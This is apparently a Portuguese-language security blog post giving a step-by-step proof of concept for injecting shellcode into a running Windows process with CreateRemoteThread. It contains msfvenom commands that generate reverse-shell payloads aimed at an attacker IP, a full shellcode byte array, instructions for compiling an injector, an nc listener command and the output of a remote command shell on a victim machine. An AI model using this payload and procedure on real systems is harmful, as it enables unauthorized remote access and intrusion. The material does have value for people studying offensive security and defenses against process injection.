```yaml
---
title: Code Injection 0x01
category: post
---
```


## Windows CreateRemoteThread Shellcode Injection and Execution in Remote Process

Esse também é um o clássico Shellcode Injection que no caso é feito em outro módulo/processo que está em execução no computador alvo. O PID do processo que injetaremos o código é passado como argumento ao executarmos o shellcode.

Quando o shellcode for executado com sucesso, ganhamos acesso na máquina alvo; Conforme PoC a seguir:

---


### Step 1 

- Gerar os bytes do shellcode para Windows x86, apontando para o IP do computador que vai ganhar o acesso.

		msfconsole
		msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d


- Ou Gerar os bytes do shellcode para Windows x64, apontando para o IP do computador que vai ganhar o acesso.

		msfconsole
		msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d


- Após rodar o comando acima com sucesso, teremos os bytes do shellcode na tela. Exemplo :

		unsigned char buf[] =
		"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
		"\xfb\x25\xeb\xf6\x83\xee\xfc\xe2\xf4\x07\xcd\x69\xf6\xfb\x25"
		"\x8b\x7f\x1e\x14\x2b\x92\x70\x75\xdb\x7d\xa9\x29\x60\xa4\xef"
		"\xae\x99\xde\xf4\x92\xa1\xd0\xca\xda\x47\xca\x9a\x59\xe9\xda"
		"\xdb\xe4\x24\xfb\xfa\xe2\x09\x04\xa9\x72\x60\xa4\xeb\xae\xa1"
		"\xca\x70\x69\xfa\x8e\x18\x6d\xea\x27\xaa\xae\xb2\xd6\xfa\xf6"
		"\x60\xbf\xe3\xc6\xd1\xbf\x70\x11\x60\xf7\x2d\x14\x14\x5a\x3a"
		"\xea\xe6\xf7\x3c\x1d\x0b\x83\x0d\x26\x96\x0e\xc0\x58\xcf\x83"
		"\x1f\x7d\x60\xae\xdf\x24\x38\x90\x70\x29\xa0\x7d\xa3\x39\xea"
		"\x25\x70\x21\x60\xf7\x2b\xac\xaf\xd2\xdf\x7e\xb0\x97\xa2\x7f"
		"\xba\x09\x1b\x7a\xb4\xac\x70\x37\x00\x7b\xa6\x4d\xd8\xc4\xfb"
		"\x25\x83\x81\x88\x17\xb4\xa2\x93\x69\x9c\xd0\xfc\xda\x3e\x4e"
		"\x6b\x24\xeb\xf6\xd2\xe1\xbf\xa6\x93\x0c\x6b\x9d\xfb\xda\x3e"
		"\xa6\xab\x75\xbb\xb6\xab\x65\xbb\x9e\x11\x2a\x34\x16\x04\xf0"
		"\x7c\x9c\xfe\x4d\x2b\x5e\xf1\x54\x83\xf4\xfb\x21\x39\x7f\x1d"
		"\x4f\xfb\xa0\xac\x4d\x72\x53\x8f\x44\x14\x23\x7e\xe5\x9f\xfa"
		"\x04\x6b\xe3\x83\x17\x4d\x1b\x43\x59\x73\x14\x23\x93\x46\x86"
		"\x92\xfb\xac\x08\xa1\xac\x72\xda\x00\x91\x37\xb2\xa0\x19\xd8"
		"\x8d\x31\xbf\x01\xd7\xf7\xfa\xa8\xaf\xd2\xeb\xe3\xeb\xb2\xaf"
		"\x75\xbd\xa0\xad\x63\xbd\xb8\xad\x73\xb8\xa0\x93\x5c\x27\xc9"
		"\x7d\xda\x3e\x7f\x1b\x6b\xbd\xb0\x04\x15\x83\xfe\x7c\x38\x8b"
		"\x09\x2e\x9e\x1b\x43\x59\x73\x83\x50\x6e\x98\x76\x09\x2e\x19"
		"\xed\x8a\xf1\xa5\x10\x16\x8e\x20\x50\xb1\xe8\x57\x84\x9c\xfb"
		"\x76\x14\x23";


### Step 2

- Abrir o código fonte que já montei referente a arquitetura que geramos o shellcode acima.

		injectremotePID.cpp

- Depois de copiar os bytes gerados pelo msfvenom no Step 1, devemos colar esses bytes no conteúdo da variável 
_unsigned char shellcode[] = ""_ do código fonte , e depois compilar-lo.

- Ao compilar o software com sucesso teremos os executáveis prontos para uso.

		injectremotePID.exe


### Step 3


- Anotar o PID do processo/módulo em que iremos injetar o shellcode.

		para vermos o PID podemos usar o "ProcessHacker" ou "procexp"


- Abrir a porta que colocamos como argumento no msfvenom para gerar o shellcode, no computador que tem o IP que também colocamos como argumento no msfvenom para gerar o shellcode :

		nc -vlp 1234


- Executar o binário que injeta o shellcode passando o PID anotado acima como argumento para o programa injetor :

		injectremotePID.exe 2004


- Feito isso, já devemos ganhar o acesso no alvo.

		listening on [any] 1234 ...
		192.168.10.109: inverse host lookup failed: Host name lookup failure
		connect to [192.168.10.113] from (UNKNOWN) [192.168.10.109] 49173
		Microsoft Windows [vers�o 6.1.7600]
		Copyright (c) 2009 Microsoft Corporation. Todos os direitos reservados.

		C:\Users\VBOX_7\Desktop>


